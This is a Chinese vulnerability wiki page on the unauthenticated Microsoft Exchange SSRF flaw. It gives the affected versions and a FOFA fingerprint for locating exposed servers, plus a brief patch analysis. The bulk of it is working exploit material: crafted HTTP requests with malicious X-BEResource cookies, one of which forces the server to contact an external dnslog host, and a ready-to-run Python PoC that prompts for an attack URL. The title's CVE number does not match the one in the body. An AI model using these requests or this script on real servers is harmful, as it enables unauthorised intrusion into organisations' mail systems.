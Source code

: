 # Microsoft Exchange SSRF漏洞 CVE-2021-26885

## 漏洞描述

Exchange Server 是微软公司的一套电子邮件服务组件，是个消息与协作系统。2021年03月3日，微软官方发布了Microsoft Exchange安全更新，披露了多个高危严重漏洞，其中：在 CVE-2021-26855 Exchange SSRF漏洞中，攻击者可直接构造恶意请求，以Exchange server的身份发起任意HTTP请求，扫描内网，并且可获取Exchange用户信息。该漏洞利用无需身份认证

## 漏洞影响

```
Exchange 2013 Versions < 15.00.1497.012,
Exchange 2016 CU18 < 15.01.2106.013,
Exchange 2016 CU19 < 15.01.2176.009,
Exchange 2019 CU7 < 15.02.0721.013,
Exchange 2019 CU8 < 15.02.0792.010
```

## FOFA 

```
icon_hash="1768726119"
```

## 漏洞复现

与 SSRF 有关的文件

```plain
/owa/auth/Current/themes/resources/logon.css
/owa/auth/Current/themes/resources/...
/ecp/default.flt
/ecp/main.css
/ecp/<single char>.js
```

查看补丁中的改变，可以看到有关 **BackEndServer** 使用的类关于 **BEResourceRequestHandler** 的改变

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091307489.png)

修复 BEResourceRequestHandler 使用的 BakcEndServer类的补丁

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091307393.png)

查看调用**BERsourceRequestHandler** 的方法 **SelectHandlerForUnauthenticatedRequest** 查找相关路径 **ProxyMoudle**

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091308700.png)

可以从中看到需要带有 EXP协议(例如路径 /ecp/), Cookie参数 **X-BEResponse**, 还有以静态扩展名结尾的 URL (例如 x.js, x.css等)

而其中的请求为 HttpProxy 来实现的，所以大部分的POC中请求的文件为**/etc/y.js** 这样类似不存在的文件

参数 **X-BEResource** 解析在 **BackEndServer.FromString**

跟踪 **BackEndServer**对象， 其中该对象使用 **ProxyRequestHandler** 向主机发送请求

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091308202.png)

这里进行SSRF的漏洞复现，首先访问 **/ecp/PeiQi.js** 文件

并设置Cookie **X-BEResource=peiqi_wiki/api/endpoint#~1; X-AnonResource=true**

```plain
GET /ecp/PeiQi.js HTTP/1.1
Host: xxx.xxx.com
Connection: close
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: X-BEResource=peiqi_wiki/api/endpoint#~1; X-AnonResource=true
```

用这样的方式请求可以确定是否存在 SSRF漏洞

```plain
响应包为:
NegotiateSecurityContext failed with for host 'peiqi_wiki' with status 'TargetUnknown'

显示这样的就是可能存在了
```

在通过发送一个请求给 Dnslog确认是否存在 SSRF给 Dnslog发送了一个请求

```plain
GET /owa/auth/PeiQi.js HTTP/1.1
Host: xxx.xxx.com
Connection: close
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: X-AnonResource=true; X-AnonResource-Backend=ianqsx.dnslog.cn/ecp/default.flt?~3; X-BEResource=ianqsx.dnslog.cn/owa/auth/logon.aspx?~3;
```

Cookie: X-AnonResource=true; X-AnonResource-Backend=ianqsx.dnslog.cn/ecp/default.flt?~3; X-BEResource=ianqsx.dnslog.cn/owa/auth/logon.aspx?~3;

将其中的 Dnslog换成自己的



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091308940.png)



确定收到了由服务端发送的请求，存在SSRF漏洞

## 漏洞POC

```python
import requests
import sys
import random
import re
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Microsoft Exchange多个版本                                \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> mail.xxx.xxx.xxx                                 \033[0m')
    print('+  \033[36mDnslog      >>> xxxx.dnslog.cn                                     \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = "https://" + target_url + "/ecp/PeiQi.js"
    headers = {
        'Cookie': 'X-BEResource=peiqi_wiki/api/endpoint#~1; X-AnonResource=true'
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if response.status_code == 500 and 'NegotiateSecurityContext' in response.text and 'peiqi_wiki' in response.text:
            print("\033[32m[o] 目标 {} 存在SSRF漏洞， 输入Dnslog地址进一步检测....\033[0m".format(target_url))
            dnslog = str(input("\033[35mDnslog >>> \033[0m"))
            POC_2(target_url, dnslog)
        else:
            print("\033[31m[x] 目标 {} 不存在SSRF漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, dnslog):
    vuln_url = "https://" + target_url + "/owa/auth/PeiQi.js"
    headers = {
        'Cookie': 'X-AnonResource=true; X-AnonResource-Backend={}/ecp/default.flt?~3; X-BEResource={}/owa/auth/logon.aspx?~3;'.format(dnslog, dnslog)
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 请查看 Dnslog：{} 响应....\033[0m".format(dnslog))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091308267.png)
